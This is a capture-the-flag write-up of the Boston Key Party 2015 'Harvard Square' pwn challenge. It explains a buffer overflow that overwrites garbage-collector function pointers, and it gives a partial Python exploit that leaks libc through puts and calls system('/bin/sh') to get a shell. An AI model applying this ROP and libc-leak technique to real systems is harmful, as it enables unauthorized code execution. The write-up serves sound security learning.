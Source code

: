 title: Boston Key Party CTF 2015 Pwn 275 Harvard Square 
date: 2015-03-02 1:50
category: pwn
tags: BKTCTF, bof
slug: bktctf_pwn_275_harvard_square

This problem was worth 275 pts, but I thought it is easier than other red problems. XD  
We could reverse it happily beacuse the programe wasn't stipped.  
* * *

The problem is a game about transcation of 0days.  
We could enter the password and cheated the game, but it's useless. XD  
After executing the binary, the game printed the message:  

>Welcome to 0day Warz - The goal of the game is to get the $100M USD by the end of the game. You have been given a loan of $2000, with some high interest rate of 25% a day!  

The program for the goal of game:  
```
void play_game() {
    ...
    if (owed == 0.0) {
        if (money > 9999999)
      action_hiscore();
    }
  ...
}
void action_hiscore() {
    char buf[268];
  ....
  read(0, buf, 0x400);
  ...
}
```

However, if understood the game rule, we could know the condition is impossible to reach.  
So we must find another vulunerbility.  
In fact, there is a bof when `play_game()` starting.  
It couldn't overflow the return address, but we could use it to change function pointers. :D  

The programe use [simple-gc](https://github.com/dhamidi/simple-gc/).  
It will create two garbage-collectors and put function pointer `exploit_free` and `string_free` to gc.  
Then, gc will trigger when we do `sleep` action.  
We could overwrite function ptr to `action_hiscore`, and we could overwrite the return address.  

We could write the exploit until now.  
Honestly, I am not familar with x64 architecture exploit.  
I wasted a lot of time to debug my code. :(  

By the way, args on x64 is in register.  
```
arg1 => rdi
arg2 => rsi
arg3 => rdx
arg4 => r8
...
```

So we must find some gadget to control arguments at first.  
Then, we could use `put()` to leak arbitrary address.  
There exist a little bug.... stdout dupped to socket.  
We won't receive the content immediately.  
To solve this bug, I returned to `action_hiscore()` again because there is `fflush()` at the end of function.  

After leaked the address, we could calulate the address of `system()`.  
Next, We needed a string of "/bin/sh".  
Luckily, we could find it in libc, too. XD  
So we couldn execute `system("/bin/sh")` to get the shell.  

My partitial exploit:  
```
# leak address
raw_input("wait gdb")
read_until("name? ")
pop_rdi = up64("402fc3")
got = up64("605061")
put = up64("400cd0")
payload = "a"*280 + pop_rdi + got + put + bof
send_line(payload)
read_until("...-'\"\n")
read_until("!\n")

# get leak and count libc
leak = read_line().strip()[::-1].encode("hex")
base = int(leak+"00", 16) - 0x54400
system = hex(base + 0x46640)[2:]
system = up64(system)
binsh = hex(base + 0x17d87b)[2:]

# get and shell out
read_until("name? ")
buf = up64("605800")
payload = "a"*280 + pop_rdi + up64(binsh) + system
send_line(payload)
read_until("!\n")

t.interact()
```

flag: `stay_in_school_and_dont_do_the_grugq`  
